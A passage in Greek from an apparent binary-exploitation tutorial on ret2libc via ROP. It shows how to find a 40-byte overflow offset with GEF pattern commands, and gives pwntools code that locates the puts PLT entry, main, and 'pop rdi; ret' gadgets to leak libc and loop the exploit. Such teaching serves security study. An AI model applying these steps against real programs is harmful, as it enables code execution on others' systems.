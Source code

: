 ![](<../../../../.gitbook/assets/image (1007).png>)

Αφού βρείτε την απόσταση (σε αυτή την περίπτωση 40) αλλάξτε τη μεταβλητή OFFSET μέσα στο πρότυπο χρησιμοποιώντας αυτή την τιμή.\
`OFFSET = "A" * 40`

Ένας άλλος τρόπος θα ήταν να χρησιμοποιήσετε: `pattern create 1000` -- _εκτελέστε μέχρι το ret_ -- `pattern seach $rsp` από το GEF.

## 2- Εύρεση Gadgets

Τώρα πρέπει να βρούμε ROP gadgets μέσα στο δυαδικό αρχείο. Αυτά τα ROP gadgets θα είναι χρήσιμα για να καλέσουμε `puts` για να βρούμε τη **libc** που χρησιμοποιείται, και αργότερα για να **εκκινήσουμε την τελική εκμετάλλευση**.
```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```
Ο `PUTS_PLT` είναι απαραίτητος για να καλέσουμε τη **συνάρτηση puts**.\
Ο `MAIN_PLT` είναι απαραίτητος για να καλέσουμε ξανά τη **κύρια συνάρτηση** μετά από μία αλληλεπίδραση για να **εκμεταλλευτούμε** την υπερχείλιση **ξανά** (άπειροι γύροι εκμετάλλευσης). **Χρησιμοποιείται στο τέλος κάθε ROP για να καλέσει ξανά το πρόγραμμα**.\
Ο **POP\_RDI** είναι απαραίτητος για να **περάσουμε** μια **παράμετρο** στη καλούμενη συνάρτηση.
